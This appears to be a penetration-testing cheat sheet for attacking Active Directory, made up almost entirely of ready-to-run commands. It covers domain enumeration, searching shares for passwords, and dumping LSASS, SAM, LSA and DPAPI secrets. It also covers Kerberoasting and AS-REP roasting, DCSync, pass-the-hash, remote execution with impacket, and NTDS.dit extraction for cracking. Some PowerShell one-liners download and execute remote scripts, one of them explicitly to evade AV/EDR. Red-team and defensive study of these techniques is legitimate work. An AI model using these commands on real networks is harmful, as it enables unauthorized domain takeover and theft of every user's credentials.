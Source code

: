 # Active Directory

## Mapping & Enumeration

### Bloodhound
Use BloodHound to find compromission paths. First execute the collector on a host that is in the targeted domain.
```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString(‘https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1’);Invoke-BloodHound"
```
If it's possible, execute SharpHound. On Linux, you can use the python version. More information here : <https://github.com/BloodHoundAD/SharpHound> and <https://github.com/fox-it/BloodHound.py>
```bash
python3 bloodhound.py -u 'XXX' -dc 'DOMAIN' -c all
```
The tool give you a zip file, that you have to send to a Neo4j database. On Linux, install Neo4j and start the service :
```bash
sudo neo4j start
```
Then execute BloodHound and import the zip file.

### Goddi
To get all the important information from the Active Directory :
```bash
./goddi-linux-amd64 -dc IP_DC -domain=DOMAIN -username=USERNAME -password=PASSWORD -unsafe
```

## Shares
Dump all shares via CrackMapExec. This can be used on native Kali distribution :
```bash
crackmapexec smb IP_ADDRESS/MASK -u 'XXX' -p 'XXX' -M spider_plus -o READ_ONLY=false
```
This command create a directory cme_spider_plus in /tmp (for Linux). To retrive passwords, simply use grep, by using keywords like 'password', 'pass', 'username', 'ldap://', etc ..
```bash
grep -rnw ./ -e 'password'
```
If detected by AV/EDR, try PowerShell one-liner PowerView :
```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')"
```
Then, a lot of functionalities can be used. To find all domain shares :
```powershell
Find-DomainShare -CheckShareAccess
```
All the functionalities here : <https://powersploit.readthedocs.io/en/latest/Recon/>
## Dump credentials
### CrackMapExec
Many possibilites. Use --local-auth if using a local admin account.
With lsassy module :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' -M lsassy
```
Dump SAM (local hashes) :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' --sam
```
Dump LSA secrets :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' --lsa
```
### DonPAPI
Use DonPAPI to retrieve a lot of credentials (wifi, dpapi keys, browsers passwords, ...) :
```bash
python3 DonPAPI.py DOMAIN/USERNAME:PASSWORD@IP_ADDRESS
```
It's possible to use the tool with Pass-The-Hash :
```bash
python3 DonPAPI.py DOMAIN/USERNAME@IP_ADDRESS --hashes LM:NT
```
### Mimikatz
On Windows, retrieve password/hash from a dump file :
```powershell
sekurlsa::minidump "XXXXXXXXX.DMP"
sekurlsa::logonPasswords
```
On Kali, use pypykatz based on python :
```bash
pypykatz lsa minidump 'XXX.DMP'
```
### Others
Native Windows command :
```markdown
rundll32 keymgr.dll, KRShowKeyMgr
```
Savoir : Mimikatz recompiled in Go lang : <https://github.com/vincd/savoir>
## Impersonation
To execute commands with another account :
```powershell
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)
Invoke-Command -ComputerName Server01 -Credential $credential -ScriptBlock { COMMAND }
```
## Kerberos
### Kerberoast
GetUserSPNs and get hashes :
```bash
impacket-GetUserSPNs -request -dc-ip IP_ADDRESS DOMAIN/USERNAME -outputfile hashes.kerberoast
```
If you get hashes, try to crack it and then use DCSync exploit :
```bash
impacket-secretsdump -just-dc-ntlm DOMAIN/USERNAME:PASSWORD@DC_IP
```
### AS-REP Roasting
Look for users without Kerberos pre-authentication required attribute (using credential, low privilege) :
```bash
impacket-GetNPUsers -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD
```
Get a TGT for a user, whithout his password, if you know that this account have Kerberos pre-auth disabled :
```bash
impacket-GetNPUsers -dc-ip DC_IP DOMAIN/USERNAME -no-pass
```
### Tips to authenticate with Kerberos while pentesting
If you have a valid username/password, you can ask the KDC for a TGT. It is truly important to use the real domain name and not an alias :
```bash
impacket-getTGT 'domain.local/username:password' -dc-ip DC_IP
```
This command will create a .ccache file, which is your TGT allowing you to authenticate against the KDC. Export it on KRB5CCNAME to use it :
```bash
export KRB5CCNAME=/absolute/path/to/user.ccname
```
Then you can use, for example the impacket collection, with -k and -no-pass options to use kerberos authentication :
```bash
impacket-smbexec domain.local/username@FQDN -k -no-pass
impacket-wmiexec domain.local/username@FQDN -k -no-pass
impacket-psexec domain.local/username@FQDN -k -no-pass
```
With CrackMapExec, use the -k and --use-kcache options to use a kerberos authentication :
```bash
crackmapexec smb IP_ADDRESS/MASK -u 'USERNAME' -k --use-kcache
```

## NTDS Exfiltration
Once you get domain admin, dump NTDS.dit to get all the hashes from the Active Directory :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN' -u 'USERNAME' -p 'PASSWORD' --ntds
```
Use with -H option to use NTLM hash :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN' -u 'USERNAME' -H 'NTLM_HASH' --ntds
```
Then, extract all the hashes to put them on hashcat.
```bash
cat ntds.dit | cut -d : -f 4 |sort|uniq > hashes.txt
```

